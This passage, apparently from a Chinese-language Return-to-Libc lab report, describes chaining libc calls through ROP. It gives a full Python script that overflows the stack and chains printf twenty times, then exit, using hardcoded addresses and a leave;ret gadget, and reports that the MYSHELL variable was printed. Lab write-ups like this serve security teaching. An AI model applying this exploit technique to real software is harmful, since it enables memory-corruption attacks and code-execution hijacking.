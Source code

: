    3. ROP攻击实验二（串接libc函数）
   
      思路：通过跳过前序对ebp的操作来串接多个需要参数的libc函数。
   
      构造脚本如下
   
      ```python
      #!/usr/bin/env python3
      import sys
      
      def tobytes(value):
        return (value).to_bytes(4,byteorder="little")
      
      
      printf_addr = 0xf7e20de0    # The address of printf()
      exit_addr = 0xf7e04f80  # The address of exit()
      leaveret = 0x565562ce
      bash_addr = 0xffffd3dc
      ebp_foo = 0xffffc968
      
      # Fill content with non-zero values
      content = bytearray(0xaa for i in range(112))
      
      ebp_next = ebp_foo + 0x20
      content += tobytes(ebp_next)  # Next ebp value
      content += tobytes(leaveret)
      content += b'A' * (0x20-2*4)  # Fill up the frame
      
      # printf()
      for i in range(20):
        ebp_next += 0x20
        content += tobytes(ebp_next)
        content += tobytes(printf_addr)
        content += tobytes(leaveret)
        content += tobytes(bash_addr)
        content += b'A' * (0x20-4*4)
      
      
      # exit()
      content += tobytes(0xFFFFFFFF)
      content += tobytes(exit_addr)  # Return address
      
      # Save content to a file
      with open("badfile", "wb") as f:
        f.write(content)
      ```
   
      结果成功打印出MYSHELL环境变量值
   
      ![ROP_3_results](/img/posts/2023-11-20-Return_to_Libc实验报告/images/ROP_3_results.png)